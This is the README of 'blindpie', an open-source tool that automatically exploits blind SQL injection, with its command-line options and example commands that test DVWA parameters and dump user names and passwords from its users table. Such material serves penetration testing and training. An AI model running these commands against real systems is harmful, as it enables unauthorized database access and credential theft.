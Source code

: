 <h1 align="center">
	<br>blindpie<br>
</h1>

<h4 align="center">Automatically exploit blind-SQLi vulnerabilities</h4>

<p align="center">
	<a href="https://github.com/alessiovierti/blindpie/releases">
		<img src="https://img.shields.io/github/release/alessiovierti/blindpie.svg">
	</a>
	<a href="https://travis-ci.com/alessiovierti/blindpie">
		<img src="https://img.shields.io/travis/com/alessiovierti/blindpie.svg">
	</a>
</p>

<p align="center">
	[Installation](#installation) •
	[Features](#features) •
	[Usage](#usage) •
	[Examples](#examples) •
	[Tips](#tips) •
	[Contributing](#contributing)
</p>

<div align="center">![Demo Long Fetch](https://i.imgur.com/tfMaLG9.gif)</div>

### Installation

```
pip install blindpie
```

### Features

- Test if any parameter is exploitable
- **Fast** multithreading fetching of a table
- Dump part of a table or keep fetching until stopped / until end of table
- Dump results on a TSV file
- Use custom headers for HTTP requests
- Define the default values of the other parameters in the requests

### Usage

<h4 align="center">Testing parameters</h4><p></p>

<div align="center">![Demo Test](https://i.imgur.com/0D9Zyx0.gif)</div>

```
usage: blindpie.py test [-h] -M method -P params [-H headers] [-T threshold]
                        [-I max_interval]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters to test and their default values (must
                        be a JSON dictionary)
  -H headers, --headers headers
                        the headers for the requests (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
```

<h4 align="center">Fetching a table</h4><p></p>

<div align="center">![Demo Short Fetch](https://i.imgur.com/ubsFh8M.gif)</div>

```
usage: blindpie.py fetch_table [-h] -M method -P params [-H headers]
                               [-T threshold] [-I max_interval] -p
                               vulnerable_param -t table -c columns
                               [-r from_row] [-n n_rows]
                               [--min_row_length min_row_length]
                               [--max_row_length max_row_length]
                               [-o output_path]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters and their default values (must be a
                        JSON dictionary)
  -H headers, --headers headers
                        the headers for the request (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
  -p vulnerable_param, --vulnerable_param vulnerable_param
                        the vulnerable parameter to exploit
  -t table, --table table
                        the name of the table to fetch
  -c columns, --columns columns
                        the columns to select
  -r from_row, --from_row from_row
                        the row from which to start to select
  -n n_rows, --n_rows n_rows
                        the number of rows to select
  --min_row_length min_row_length
                        limit selection to rows with this min length
  --max_row_length max_row_length
                        limit selection to rows with this max length
  -o output_path, --output_path output_path
                        path to the output file
```

### Examples

Let's consider for example the [Damn Vulnerable Web Application](http://www.dvwa.co.uk), in particular its page `vulnerabilities/sqli_blind/`.

The page shows a form to search information about a user. The form sends a GET request with parameters `id` and `Submit`.

To test which parameters are exploitable we can use the `test` command:

- First, we need to prepare a default request which contains the default values for the parameters, as a JSON dictionary:

	`{"id":"1","Submit":"Submit"}`

- Then we need to prepare the headers (if you don't provide any `blindpie` will use some default ones). In this case the page requires a PHPSESSID value in the Cookie header (and a cookie `security` to set the security level of DVWA):

	`{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}`

The following command will find which parameters are exploitable:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ test -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}'
```

`blindpie` will find out that the `id` parameter is indeed exploitable.

Let's say, for example, that we want to dump the `user` table, by selecting its columns `user` and `password` by exploiting the vulnerability we found.

The following command will dump the fetched rows into a TSV file:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ fetch_table -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}' -p "id" -t "users" -c "user,password"
```

If you want to end the fetching before it may be completed, stop it with <kbd>CTRL</kbd>+<kbd>C</kbd>.
You'll find the dumped table in a file named `blindpie.out` in your working directory.

### Tips

`blindpie` gives you some ways of getting faster or more reliable results:

- `--threshold` can make fetching much faster when it's close to 1 but it will be also much less reliable.
- `--max_interval` can make requests more distant one with the other. Choose wisely since an high value will make fetching much slower. When testing local targets you should use 0.
- `--min_row_length` and `--max_row_length` can help get faster results by limiting the search to rows with length in this range.

### Contributing

If you have any idea, tip, or you want to contribute in any way, open an issue or contact me in any way you prefer.

If you want to have a look at how the project is structured check `./docs/uml/uml.svg`.

If you wanna play with it or extend it use the `Makefile` to install the requirements (`$ make init`) or launch the tests (`$ make test`).

### Authors

* **Alessio Vierti** - *Initial work*

### License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

